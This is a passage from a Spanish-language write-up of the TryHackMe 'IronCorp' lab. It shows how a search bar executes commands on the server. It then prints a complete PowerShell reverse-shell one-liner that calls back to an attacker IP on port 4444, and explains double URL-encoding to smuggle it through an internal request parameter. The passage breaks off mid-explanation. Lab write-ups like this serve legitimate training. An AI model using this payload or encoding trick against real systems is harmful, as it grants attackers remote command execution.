 Parece que el usuario es llamado "Equinox".
Sabiendo esto podríamos pensar que está ejecuntando alguna comprobación para saber el usuario y, al ser el usuario que nos muestra diferente al que hemos utilizado para autenticanos podemos deducir que el lugar o servicio donde está comprobando no es el mismo en el que nos encontramos.

¿Quizás es ejecutado a nivel de sistema?

![alt text](/assets/img/writeups/tryhackme/ironcorp-thm/image-10.png)

Eso parece.


# Ganando acceso

Ahora que sabemos que la barra de busqueda realmente está siendo ejecutada como un usuario en el servidor, no queda otra que crearnos una shell en el sistema.

Para esto hay varias formas pero aquí vamos a hacerlo en un solo paso.

EL one-liner que vamos a utilizar es el siguiente:

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.17.92',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
> Esto hay que encodearlo 2 veces debido a que el comando que se está ejecutando es un comando de PowerShell.
{: .prompt-info }

- Primera codificación:

   - Era necesaria para los caracteres especiales en el payload inicial (|, espacios, etc.)
   - Por ejemplo: `|` se convierte en `%7C`

- Segunda codificación:

   - El servidor hacía una petición interna usando el parámetro `r=`
   - El `%` de la primera codificación necesitaba ser codificado de nuevo
   - Por ejemplo: `%7C` se convertía en `%257C`

- La razón técnica es:
